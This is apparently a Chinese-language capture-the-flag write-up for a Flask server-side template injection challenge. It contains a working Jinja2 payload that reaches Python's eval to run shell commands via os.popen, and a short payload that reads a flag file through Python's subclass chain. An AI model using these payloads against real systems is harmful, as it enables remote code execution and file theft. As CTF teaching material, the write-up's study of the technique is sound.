 ```yaml
---
title: 攻防世界 WEB Web_python_template_injection
categories:
  - ctf
tags:
  - 信息安全
abbrlink: 57753
date: 2020-01-18 13:25:19
---
```




# 0x00 - 题目描述

![](http://markdown.yeek.top/20200118132746.png)


<!-- MORE -->


# 0x01 - 解题过程

打开是单一网页，注释中也没有其他提示。

![](http://markdown.yeek.top/20200118132924.png)



通过百度得知，是要利用 flask 模板的代码注入漏洞。就例如下面这种

![](http://markdown.yeek.top/20200118133342.png)



这是某大神已经写好的远程执行漏洞，在popen里填入指令就行了。

```php
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}  
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("ls").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

效果如下

![](http://markdown.yeek.top/20200118133907.png)

![](http://markdown.yeek.top/20200118133951.png)





# 0x02 - 技术总结

这道题属于 **SSTI——服务端模板注入攻击** ，其实在 `Chrome` 的 `Hackbar` 中有测试载荷。



**SSTI** 读取文载荷

```python
[].__class__.__base__.__subclasses__()[40]('fl4g').read()
```



